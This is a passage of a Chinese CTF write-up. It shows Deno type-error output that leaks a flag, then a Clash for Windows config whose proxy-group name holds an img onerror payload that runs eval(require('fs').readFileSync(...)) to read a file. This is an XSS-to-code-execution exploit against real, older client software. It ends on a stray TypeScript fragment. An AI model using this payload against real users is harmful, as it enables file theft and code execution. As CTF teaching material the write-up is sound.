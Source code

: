 顺利输出：

```
Process exited with code 1
[+] Stdout:

[+] Stderr:
Check file:///app/$deno$stdin.ts
error: TS2322 [ERROR]: Type '123' is not assignable to type '"TS_qWeR_BeTteR_tHaN_Pyth0n!"'.
let err: Final = 123
    ~~~
    at file:///app/$deno$stdin.ts:51:5
```

然后人肉把字符替换回来，就是我们的 Flag 2。

## 非法所得

### Flag 1

看第二阶段提示才知道旧版本 cfw 的远程代码执行漏洞，于是自己构造一个配置文件给题目环境里的 cfw 获取就行

```yml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
    - name: xxx
      type: vmess
      server: ys.mihoyo.com
      port: 11451
      uuid: B00EC15A-B535-411D-95D6-CAEA028C477F
      alterId: 0
      cipher: auto
      udp: false

proxy-groups:
    - name: | # 重点
          <img src="xxx" onerror="alert(eval(`require('fs').readFileSync('/app/profiles/flag.yml', { encoding: 'utf-8' })`))"/>
      type: select
      proxies:
          - xxx
```

任意用一个外网可以访问的静态文件服务器丢上去，并把 URL 喂给 cfw，然后去 Proxies 界面即可弹出窗口


  [K in keyof FlagParam]: string extends FlagParam[K] ? never : K